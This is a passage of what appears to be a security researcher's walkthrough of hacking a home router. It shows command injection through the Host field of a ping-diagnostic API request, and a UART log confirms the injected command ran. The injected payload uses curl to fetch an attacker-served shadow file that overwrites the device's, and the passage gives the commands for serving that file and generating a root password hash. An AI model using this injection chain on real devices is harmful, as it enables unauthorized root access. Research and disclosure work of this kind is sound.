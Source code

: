 User input:
```
{
    "ProtocolVersion":"IPv4",
    "Host":"127.0.0.1 -c1\ncrap",
    "DiagnosticsState":"Requested",
    "NumberOfRepetitions":4,
    "type":0
}
```

UART log (look... command injection :satisfied:):
```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.551 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.551/0.551/0.551 ms
sh: crap: not found
```

#### 22. Shell or no shell?
```
PUT /cgi-bin/Diagnostic?oid=PINGTEST&sessionkey=663552931 HTTP/1.1
Host: 192.168.1.1
...

{
    "ProtocolVersion":"IPv4",
    "Host":"127.0.0.1 -c1\ncurl 192.168.1.179/shadow -o /var/shadow",
    "DiagnosticsState":"Requested",
    "NumberOfRepetitions":4,
    "type":0
}
```

Since we know what the Unix hashes look like - we can put our own `root` hash on the device.

#### 23. Shell or no shell?

Serve the `shadow` file:
```
# python -m SimpleHTTPServer 80
```

Here comes the `shadow`:
```
# cat shadow
root:<SAME HASH AS ADMIN BECAUSE WE KNOW THE PASSWORD ALREADY>
supervisor:<LUL HASH>
admin:<ADMIN HASH>
```

Generate a valid hash as follows:
```
# python -c "import crypt, getpass, pwd; print(crypt.crypt('password', '\$6\$SALT\$'))"
```

